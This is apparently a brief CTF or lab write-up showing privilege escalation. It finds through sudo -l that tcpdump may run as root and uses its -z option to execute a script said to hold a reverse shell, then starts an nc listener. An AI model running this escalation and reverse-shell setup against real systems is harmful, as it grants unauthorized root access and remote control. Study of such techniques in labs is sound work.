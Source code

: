**Check what I can use with sudo
```shell-session
sudo -l
```

We can use tcpdump, so let's check it out
```shell-session
man tcpdump
```

This shows we can use the -z flag to execute a shell script
```shell-session
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
- .test contains a reverse shell

**Start a listener
```shell-session
nc -lvnp 443
```

